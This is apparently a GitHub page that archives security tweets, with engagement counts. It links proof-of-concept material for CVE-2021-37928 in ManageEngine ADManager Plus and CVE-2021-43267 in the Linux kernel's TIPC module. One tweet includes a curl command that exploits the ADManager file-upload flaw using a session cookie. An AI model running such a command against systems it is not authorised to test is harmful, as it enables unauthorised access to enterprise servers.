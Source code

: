 <table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1465204210887233536 _at 2021-11-29, 06:21:20_**
<blockquote>
Notes and PoC for ManageEngine ADManager Plus CVE-2021-37928, a post-auth file upload with default creds.

curl -vb JSESSIONIDADSMSSO=&lt;val&gt; http://172.16.57.222:8080/RestAPI/WC/NotificationTemplate/attachFiles -F "UPLOADED_FILE=@-;filename=foo.txt" &lt;&lt;&lt;bar

https://t.co/Q7gqOESyku
</blockquote>

* https://attackerkb.com/assessments/f71592af-8331-4b73-b0c9-8fdb1aee246d

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1465149720653877252 _at 2021-11-29, 02:44:49_**
<blockquote>
CVE-2021-43267: An issue was discovered in net/tipc/crypto.c in the Linux kernel before 5.14.16. The Transparent Inter-Process ...

PoC
https://t.co/fycjKNJaIm https://t.co/QZuVmjCmrT
</blockquote>

* https://haxx.in/posts/pwning-tipc/

<table><tr>
<td><img src="pictures/e563c146a36135e93e2af40119700a1ccf4a040721fa9a0099902047c392f956.jpg" alt="e563c146a36135e93e2af40119700a1ccf4a040721fa9a0099902047c392f956.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>127</code></td>
</tr></table>

---